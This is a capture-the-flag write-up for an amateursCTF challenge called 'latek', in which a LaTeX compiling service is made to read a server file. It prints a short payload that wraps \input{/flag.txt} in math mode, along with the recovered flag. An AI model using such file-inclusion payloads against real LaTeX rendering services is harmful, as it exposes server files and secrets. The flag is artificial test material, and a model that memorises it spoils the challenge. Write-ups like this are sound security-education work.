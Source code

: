 # latek

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/aebb79cd-4a70-4c43-acec-933a88fa5a77)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/bad4708d-656d-4e57-b3d2-470a0a6b2a58)

## solution

we can try to use the `\input{<path>}` to inject any file on disk to the latex document

however, there is an error so we cannot get the full flag:

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9c277e94-004b-4e7c-8403-ae15ff9db5a2)

we can surround the input command with `$` and it works

total payload:

```latex
\documentclass{article}
\begin{document}
$\input{/flag.txt}$
\end{document}
```
![image](https://github.com/quasar098/ctf-writeups/assets/70716985/553638ab-779f-4dc3-ae20-bc62a7a0c14b)

i'm not quite sure what rc3 is

i know that `_` before a character means it is subscripted, so we can do the reverse to get the flag

`amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`
